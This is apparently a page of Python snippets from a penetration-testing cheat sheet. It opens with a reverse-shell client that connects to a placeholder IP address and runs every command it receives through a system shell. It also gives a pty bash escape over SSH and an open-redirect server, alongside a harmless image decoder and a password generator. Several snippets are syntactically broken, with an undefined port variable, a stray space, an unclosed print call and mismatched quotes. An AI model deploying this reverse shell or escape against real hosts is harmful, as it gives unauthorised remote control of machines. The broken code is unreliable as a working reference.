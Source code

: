 # Python

{% tabs %}
{% tab title="Simple Reverse connection" %}
```python
import socket
import subprocess

REMOTE_HOST = '10.X.X.X'
REMOTE_HOST = 4231

client = socket.socket()
print ("Starting Connection..."

client.connect((REMOTE_HOST, REMOTE _PORT))
print ("Connected")

while True:
    print ("Command Awaiting")
    command = client.recv(1024)
    command = command.decode()
    
    op = subprocess.Popen(command, shell=True, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
    
    said = op.stdout.read()
    error_said = op.stderr.read()
    print("Send Response")
    client.send (said + error_said)
    
```
{% endtab %}

{% tab title="SSH login escape" %}
```python
ssh user@host "python -c \"import pty; pty.spawn('/bin/bash")\""
```
{% endtab %}

{% tab title="Base64 Web image decoder" %}
```python
# Save the data value to a text file (image.txt) and run the script below to generate an image. 

#!/bin/python
import base64

file = open('image.txt', 'rb')
encoded_data = file.read()
file.close()

decoded_data = base64.b64decode((encoded_data))

# Does not have to be png format

img_file = open('image.png','wb')
img_file.write(decoded_data)
img_file.close()
```
{% endtab %}

{% tab title="Password Generator" %}
```python
# Random Password generator. Insert additional characters as desired

import os

Characters = "aAbBcC3dDeEfFg9GHh2IiJjK8kLlM0m4N&nOoPpQq7RrSs1Tt#5UuVvWwXxYy6Zz"
Length = int(input("Length: "))

urandom = os.urandom(Length)
Index = ""
for i in range(Length):
    Index+=Characters[ord(os.urandom(1)) % len(Characters)]

print(Index)
```
{% endtab %}

{% tab title="Redirect.py" %}
```python
#!/usr/bin/python3
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

class Redirect(BaseHTTPRequestHandler):
  def do_GET(self):
      self.send_response(302)
      self.send_header('Location', sys.argv[1])
      self.end_headers()

HTTPServer(("0.0.0.0", 80), Redirect).serve_forever()
```
{% endtab %}
{% endtabs %}
